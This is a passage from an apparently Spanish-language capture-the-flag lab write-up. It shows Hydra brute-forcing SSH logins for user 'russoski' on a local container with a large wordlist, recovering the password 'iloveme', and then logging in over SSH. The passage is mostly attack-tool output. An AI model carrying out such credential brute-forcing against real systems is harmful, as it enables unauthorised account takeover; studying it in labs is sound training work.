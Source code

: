 ```bash  
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "qwerty" - 20 of 14344400 [child 1] (0/1)
[ERROR] ssh protocol error
****************************************TIEMPO DESPUÉS******************************************
[VERBOSE] Retrying connection for child 2
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "987654321" - 82 of 14344400 [child 6] (0/1)
[RE-ATTEMPT] target 172.17.0.2 - login "russoski" - pass "lovers" - 82 of 14344400 [child 2] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "computer" - 83 of 14344400 [child 7] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "whatever" - 84 of 14344400 [child 0] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "dragon" - 85 of 14344400 [child 1] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "vanessa" - 86 of 14344400 [child 10] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "cookie" - 87 of 14344400 [child 4] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "naruto" - 88 of 14344400 [child 5] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "summer" - 89 of 14344400 [child 8] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "sweety" - 90 of 14344400 [child 9] (0/1)
[VERBOSE] Retrying connection for child 13
[RE-ATTEMPT] target 172.17.0.2 - login "russoski" - pass "junior" - 101 of 14344400 [child 3] (0/1)
[VERBOSE] Retrying connection for child 14
[RE-ATTEMPT] target 172.17.0.2 - login "russoski" - pass "taylor" - 101 of 14344400 [child 13] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "alexis" - 102 of 14344400 [child 1] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "jesus" - 103 of 14344400 [child 7] (0/1)
[RE-ATTEMPT] target 172.17.0.2 - login "russoski" - pass "yellow" - 103 of 14344400 [child 14] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "estrella" - 104 of 14344400 [child 10] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "miguel" - 105 of 14344400 [child 15] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "william" - 106 of 14344400 [child 4] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "thomas" - 107 of 14344400 [child 8] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "beautiful" - 108 of 14344400 [child 0] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "mylove" - 109 of 14344400 [child 6] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "angela" - 110 of 14344400 [child 2] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "poohbear" - 111 of 14344400 [child 9] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "patrick" - 112 of 14344400 [child 5] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "iloveme" - 113 of 14344400 [child 1] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "sakura" - 114 of 14344400 [child 7] (0/1)
[ATTEMPT] target 172.17.0.2 - login "russoski" - pass "adrian" - 115 of 14344400 [child 10] (0/1)
'Despues de un tiempo podemos ver que ha encontrado la contraseña del usuario'
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme`

[STATUS] attack finished for 172.17.0.2 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-22 10:26:07
                                                                                     
```
Ahora que sabemos la contraseña, entraremos por el servicio SSH.

```bash  
┌──(alema㉿alema)-[~]
└─$ ssh russoski@172.17.0.2                                                        
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:R8ZiOJN33rhfvGADBLwVQ1mPV7lSmGJACOhjdTB0wMQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
russoski@172.17.0.2's password:
'Ponemos la contraseña que hemos descubierto.'
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.11.2-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

```